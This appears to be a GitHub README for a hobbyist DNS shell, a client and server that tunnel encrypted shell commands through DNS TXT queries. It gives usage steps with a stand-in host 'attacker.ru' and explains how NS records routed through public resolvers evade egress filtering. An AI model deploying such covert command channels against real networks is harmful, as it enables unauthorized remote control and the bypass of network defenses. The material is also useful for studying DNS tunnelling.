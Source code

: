 # DNS Shell

## Introduction
This is a simple dns shell. I've gone to a few security talks lately, and it seems to me people talk of dns shells like they are new and hip...yet they've been around since the late 90's...is it just me who has heard of these for years?

Anyways, this is a pretty simple shell setup. It contains a custom DNS server that sits and listens for TXT request from a custom DNS client.

The shell implementation is pretty ghetto (kind of on purpose...script kiddies need to do some work on their part...).

All comms are encrypted with AES128 with padding and a nonce-based iv (might be insecure...space for cnc is pretty small...hence why it's AES128 instead of AES256 or higher). At some point I'd like to add a layer of asymmetric encrypt to ensure authenticity with the server and that way a private key wouldn't need to be provided on the client side of things.

The nonce system is kind of a mess. I was too lazy to implement a full nonce based resending system...so I just added a delay between sending packets to "hope" they arrive in order...it's on the todo...

Single client only (multiple clients are going to do some weird things...).

Made this just to do it myself...iodine and dnscat are way better than this...

Educational use intended...don't break the law and say I didn't say you shouldn't...

## Usage
This can be used in two ways - the dumb way and the smart way.

#### Dumb way
The dumb way is simply setting up a server and using it like so:

On the server:
```
$ ./server.py
Password:
DNS Serverpress enter for "0.0.0.0":
DNS Port (press enter for 53):
ls -a
.
..
folder_1
...
```

On client:
```
$ ./client.py
Password:
Root (i.e. ".attacker.ru" without quotes): .attacker.ru
DNS Server: attacker.ru
DNS Port (press enter for 53):
```

The dumb way can be stopped by egress filtering on client machines. The smart way is a little more resilient.

#### Smart way
The smart way is to create an NS record on an internet nameservice (like GoDaddy, Namecheap, etc...). Set this to a subdomain (usually can't make a NS on your root domain on these types of systems). I'm going to use `.cnc.attacker.ru` as an example. You are also going to need to setup a server on an internet accessible machine, and give it an A record to `cnc.attacker.ru`. Any DNS requests for `*.cnc.attacker.ru` from clients can now go to an internet DNS (say `8.8.8.8`), which will query `cnc.attacker.ru`, which will send replies back to `8.8.8.8`, which will go back to the client. Egress filtering defeated...

```
$ ./server.py
Password:
DNS Serverpress enter for "0.0.0.0":
DNS Port (press enter for 53):
ls -a
.
..
folder_1
...
```

On client:
```
$ ./client.py
Password:
Root (i.e. ".attacker.ru" without quotes): .cnc.attacker.ru
DNS Server: 8.8.8.8
DNS Port (press enter for 53):
```

## Files
- `alpha.py` - Arbitrary(ish) encoding system.
- `b62.py` - Base62 encoder using alpha.py.
- `client.py` - Client (aka shell).
- `cnc.py` - Non-blocking command line interface.
- `crypt.py` - Encryption scheme (AES128).
- `server.py` - Server (aka shell handler).
- `session.py` - DNS session handler (has a session number that isn't used at the moment...)
- `util.py` - Random utility functions needed.

## Closing
Summary: Simple liitle dns shell with encrypted comms that still needs a lot of work...but it served its purpose...

That's it...
